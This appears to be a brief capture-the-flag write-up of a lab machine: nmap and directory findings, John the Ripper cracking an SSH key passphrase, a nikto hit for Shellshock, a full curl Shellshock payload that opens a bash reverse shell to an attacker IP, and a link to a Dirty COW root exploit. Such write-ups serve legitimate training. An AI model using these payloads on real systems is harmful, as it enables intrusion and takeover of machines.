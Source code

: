 start with nmap

22
80 


http

/admin
/backup --> got rsa private key(encrypted) : letmein
/cgi-bin
/uploads


id_rsa cracking

```
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id_rsa)



```

nikto

```
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).

```

shellshock

```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.11.57.82/1234 0>&1'" \ http://10.10.151.146/cgi-bin/test.cgi

```

bash -i >& /dev/tcp/10.11.57.82/1234 0>&1

privs

https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c